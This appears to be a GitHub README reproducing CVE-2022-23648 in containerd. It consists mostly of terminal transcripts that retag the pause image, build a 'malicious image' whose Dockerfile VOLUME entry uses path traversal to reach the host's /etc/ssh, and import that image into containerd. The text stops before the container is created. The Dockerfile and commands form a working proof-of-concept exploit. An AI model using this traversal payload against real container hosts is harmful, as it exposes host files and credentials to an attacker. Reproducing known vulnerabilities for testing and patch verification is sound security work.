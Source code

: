 




<h4> Create image </h4>

<h4> Create container and trigger vulnerability </h4>

* Pull the pause image

                root@ubuntu:/home/test# crictl  pull registry.aliyuncs.com/google_containers/pause:3.6
                Image is up to date for sha256:6270bb605e12e581514ada5fd5b3216f727db55dc87d5889c790e4c760683fee
                root@ubuntu:/home/test# crictl image
                IMAGE                                           TAG                 IMAGE ID            SIZE
                registry.aliyuncs.com/google_containers/pause   3.6                 6270bb605e12e       302kB
                root@ubuntu:/home/test# ctr -n k8s.io image tag registry.aliyuncs.com/google_containers/pause:3.6 k8s.gcr.io/pause:3.6
                k8s.gcr.io/pause:3.6
                root@ubuntu:/home/test# crictl  image
                IMAGE                                           TAG                 IMAGE ID            SIZE
                k8s.gcr.io/pause                                3.6                 6270bb605e12e       302kB
                registry.aliyuncs.com/google_containers/pause   3.6                 6270bb605e12e       302kB

* Create the mailicious image

Built it.


                root@ubuntu:/home/test/CVE-2022-23648# echo "host" > /etc/ssh/host_file
                root@ubuntu:/home/test/CVE-2022-23648# vi Dockerfile 
                root@ubuntu:/home/test/CVE-2022-23648# docker build -t cve-2022-23648 .
                Sending build context to Docker daemon  3.584kB
                Step 1/2 : from ubuntu:20.04
                ---> ff0fea8310f3
                Step 2/2 : VOLUME  /../../../../../../../../etc/ssh
                ---> Running in 06720320c1f6
                Removing intermediate container 06720320c1f6
                ---> b253bcd6793c
                Successfully built b253bcd6793c
                Successfully tagged cve-2022-23648:latest
                root@ubuntu:/home/test/CVE-2022-23648# cat Dockerfile 
                from ubuntu:20.04

                VOLUME  /../../../../../../../../etc/ssh

                root@ubuntu:/home/test/CVE-2022-23648# 


* Import it in containerd


                root@ubuntu:/home/test/CVE-2022-23648# docker save cve-2022-23648 > cve-2022-23648.tar
                root@ubuntu:/home/test/CVE-2022-23648# ctr -n k8s.io image import  cve-2022-23648.tar 
                unpacking docker.io/library/cve-2022-23648:latest (sha256:6280c4ac2a16fb85d1c15d4c43055a32ce226c04bbdb0358c8f0b39d93aa869a)...done
                root@ubuntu:/home/test/CVE-2022-23648# crictl  image 
                IMAGE                                           TAG                 IMAGE ID            SIZE
                docker.io/library/cve-2022-23648                latest              b253bcd6793c2       75.1MB
                k8s.gcr.io/pause                                3.6                 6270bb605e12e       302kB
                registry.aliyuncs.com/google_containers/pause   3.6                 6270bb605e12e       302kB

